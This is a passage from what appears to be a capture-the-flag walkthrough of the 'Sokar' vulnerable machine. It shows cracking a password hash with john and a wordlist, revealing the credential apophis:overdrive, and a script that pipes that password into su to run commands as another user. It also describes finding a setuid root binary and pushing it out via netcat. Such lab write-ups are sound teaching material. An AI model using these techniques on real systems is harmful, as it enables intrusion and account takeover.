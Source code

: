... **wut**. Why... wait a sec. Why the heck is a password hash in memory now. Dont think there has been any activity for this user yet... but clearly I don’t understand half of the technicalities here :( But hey. Lets run it through `john`:

```bash
leonjza@kali/sokar $ john passwd --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Loaded 1 password hash (sha512crypt [32/32])
overdrive        (apophis)
guesses: 1  time: 0:00:01:51 DONE (Sat Jan 31 20:35:42 2015)  c/s: 327  trying: parati - nicole28
Use the "--show" option to display all of the cracked passwords reliably
```

`apophis:overdrive`.

## build the clone to the hook
To get command execution as `apophis.py` I copied the `bynarr.py` script to make `apophis.py`, changing the username and the password.

```bash
leonjza@kali/sokar $ python apophis.py "id"
 * Executing /usr/bin/python -c "import time; time.sleep(2); print 'overdrive'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su', '-l', '-c','id', 'apophis']);"

Password:
uid=501(apophis) gid=502(apophis) groups=502(apophis)
```

There we go! Command execution as `apophis` :) In `/home/apophis` there was a suid (for `root`) binary called `build`:

```bash
leonjza@kali/sokar $ python apophis.py "ls -lah /home/apophis"
 * Executing /usr/bin/python -c "import time; time.sleep(2); print 'overdrive'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su', '-l', '-c','ls -lah /home/apophis', 'apophis']);"

Password:
total 36K
drwx------  2 apophis apophis 4.0K Jan  2 20:12 .
drwxr-xr-x. 4 root    root    4.0K Dec 30 19:20 ..
-rw-------  1 apophis apophis    9 Feb  2 20:55 .bash_history
-rw-r--r--  1 apophis apophis   18 Feb 21  2013 .bash_logout
-rw-r--r--  1 apophis apophis  176 Feb 21  2013 .bash_profile
-rw-r--r--  1 apophis apophis  124 Feb 21  2013 .bashrc
-rwsr-sr-x  1 root    root    8.3K Jan  2 17:49 build
```

I thought I would copy this `build` binary off the box as I don’t exactly have a nice interactive shell to work with yet. `apophis` was also not able to to connect via `tcp/51242` outbound, which further confirmed my suspicions on the `user` module being used in iptables. I copied the binary to `/tmp/build` and pushed it out via netcat as `bynarr` (using my helper script) towards my local Kali linux install. Finally I had `build` locally to play with.

I later noticed it was a 64bit binary, so I had to move it over to my 64bit install of Kali Linux to inspect further.
Running it asked you if you wanted to 'build?':
